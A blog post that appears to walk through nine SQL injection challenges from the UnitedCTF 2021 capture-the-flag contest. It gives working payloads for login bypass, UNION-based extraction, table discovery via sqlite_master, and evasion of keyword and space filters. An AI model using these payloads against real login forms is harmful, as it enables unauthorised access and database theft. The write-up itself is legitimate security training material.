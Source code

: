 ```yaml
---
layout: post
title: "UnitedCTF 2021 part 2: SQL injection"
date: 2021-10-09
---
```


I really liked this track, there was nine (relatively) easy challenges on SQL injection. There was a thorough explanation on how to do the first challenge and it allowed everyone to catch up and brush up their skills. Since I've already talked about [SQL injection in a previous blog](/will-hack-for-coffee/_posts/2021-03-15-full-database-exfiltration-oneliner.md) I'll skip right to the chase.

## SQLi 1: What's SQLi?

Each challenge involved a basic login page. Using Burp Suite helped me adjust my payload quickly and offered basic documentation.

![SQLi login](/assets/images/unitedctf2021/sqli-login.png)

For the username field I used admin (as with all others SQLi challenges). For the password field I used this payload to get the first flag:
````
password" or 1=1 --
````
Note: I retried the injection on docker and I had to replace the " by ', so you may have to adjust your payload depending on your system. Which is weird since I tought Docker would make it system agnostic, oh well.

## SQLi 2: Only one

The way the challenges were designed you didn't have reflected injection in the page, if you had the correct payload you were forwarded to another page that had the flag. Brute forcing was not allowed but tools like sqlmap probably would not have worked anyway. We were told that the code validated that it returned only one result but that the admin still was the first in the table. So I used this payload instead:
````
password" or id=1 --
````

## SQLi 3: Maybe Burp can find it?

For the next challenge the admin was not in the first row so I used Burp intruder tab and specified id as my payload variable:

![burp-intruder](/assets/images/unitedctf2021/burp-intruder.png)

Turned out his id was 2... xD

## SQLi 4: Union attack

There was then a series of challenge based on some variation that needed to use [union attack](https://portswigger.net/web-security/sql-injection/union-attacks). In this challenge the flag is in the flag table in the flag column. First, I found the number of column returned by the table using different column number, this payload didn't provoke errors:

````
" order by 3 --
````
Then I crafted this highly elaborated payload:
````
" UNION SELECT "","",flag from flag -- 
````

## SQLi 5: No union

This challenge is identical to the previous one except the key word UNION is filtered. This one made me smile because I already had solved something similar evading XSS filter. My payload from the previous challenge would be reconstructed after the filter would be applied:
````
" UNUNIONION SELECT "","",flag from flag -- 
```` 

## SQLi 6: What table?

Similar challenge except there is no filter and the table name is unknown. It was mentioned in the first challenge of the series that the database was SQLite3. That is relevant here because we will have to query the table name using the database schema which differs depending on the database. After a little bit of research I crafted this payload to find the name of the table:
````
" UNION SELECT "","",name from sqlite_master where sql like "%flag%" --
````
![table-name](/assets/images/unitedctf2021/table-name.png)

With this info I found the flag like so:

````
 " UNION SELECT "","",flag from K953U0Ty4V --
````

## SQLi 7: Where the flag?

For this challenge neither the table or column name is known. So first:

````
" UNION SELECT "","",sql from sqlite_master --
...
CREATE TABLE "Ja93MjakS" (
            "id" INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL,
            "Dab93JkA" VARCHAR)
...
````
Resulting in this payload:
````
" UNION SELECT "","",Dab93JkA from Ja93MjakS --
````

## SQLi 8: No flag

So there is a secret table with the column flag but there is a filter on the word flag. First, I needed to find the table name:
````
" UNION SELECT "","",sql from sqlite_master where sql like "%fla%" --
...
CREATE TABLE "cKretTblName" (
            "id" INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL,
            "flag" VARCHAR
          )
...
````
So after a couple of trials and errors I found that payload. My union attack returns three columns and that table has only two columns so I returned an empty string instead.
````
" UNION SELECT "",* from cKretTblName --
````
 Would it really work in real life? I don't know but I got my flag.

 ## SQLi 9: No spaces for you

 The good news is that the flag is in the flag table within the flag column. As it was not ridiculous enough the DBA now filters all spaces. I've tried a lot of things for this one but turns out you can use comments instead of spaces:
 ````
"union/*comments*/select/*_*/"","",flag/*_*/from/*_*/flag/*more_comments*/--
 ````
So that was it for the SQL injection track. Next up ReDoS!

